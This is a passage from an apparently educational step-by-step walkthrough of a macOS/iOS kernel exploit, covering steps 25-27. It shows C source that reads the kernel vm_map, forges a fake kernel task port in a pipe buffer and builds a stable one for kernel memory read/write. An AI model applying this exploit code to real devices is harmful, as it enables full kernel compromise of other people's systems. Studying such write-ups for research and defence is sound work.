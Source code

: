 {% endhighlight %}
#### Step 25: Get the address of the vm_map

Now that we have identified the kernel task port, we can read the **vm_map** since it is at a fixed offset.

{% highlight c %}
    // 25\. Next we can use the kernel task to get the address of the kernel vm_map.
    	uint64_t kernel_map = stage1_read64(kernel_task + OFFSET(task, map));
{% endhighlight %}
#### Step 26: Create a fake kernel task port

Now we can build a fake kernel task port, all of which is still within the pipe buffer.

{% highlight c %}
    // 26\. Build a fake kernel task port that allows us to read and write kernel memory.
    	stage2_init(ipc_space_kernel, kernel_map);
{% endhighlight %}
The criteria for a fake kernel task port is that the fake task's map field should point to the kernel **vm_map** and the receiver field should point to the **ipc_space_kernel**. This is acheived with the following 2 lines.

{% highlight c %}
    FIELD(fake_task, task, map, uint64_t) = kernel_map;
    FIELD(fake_port_data, ipc_port, ip_receiver,   uint64_t) = ipc_space_kernel;
{% endhighlight %}
#### Step 27: Create a fake kernel task port

Now that we have a fully functioning kernel task port and we can call the Mach APIs to read and write memory, it is time to build a more stable kernel task port. This time, memory is allocated via **mach_vm_allocate** and the kernel task port may be created even outside the pipe buffer.

{% highlight c %}

    // 27\. Alright, now kernel_read() and kernel_write() should work, so let's build a safer
    	// kernel_task port. This also cleans up fake_port so that we (hopefully) won't panic on
    	// exit.
    	uint64_t task_pointer = task_port_address + OFFSET(ipc_port, ip_kobject);
    	current_task = kernel_read64(task_pointer);
    	stage3_init(ipc_space_kernel, kernel_map);

    /*
     * stage3_init
     *
     * Description:
     * 	Initialize the stage 3 kernel read/write primitives. After this, it's safe to free all
     * 	other resources.
     *
     * 	TODO: In the future we should use mach_vm_remap() here to actually get a second copy of the
     * 	real kernel_task.
     */
    static bool
    stage3_init(uint64_t ipc_space_kernel, uint64_t kernel_map) {
    	bool success = false;
    	size_t size = 0x800;
    	// Allocate some virtual memory.
    	mach_vm_address_t page;
    	kern_return_t kr = mach_vm_allocate(fake_port, &page, size, VM_FLAGS_ANYWHERE);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "mach_vm_allocate", kr, mach_error_string(kr));
    		goto fail_0;
    	}
    	// Build the contents we want.
    	uint8_t *data = calloc(1, size);
    	assert(data != NULL);
    	build_fake_kernel_task(data, page, SIZE(ipc_port), 0, ipc_space_kernel, kernel_map);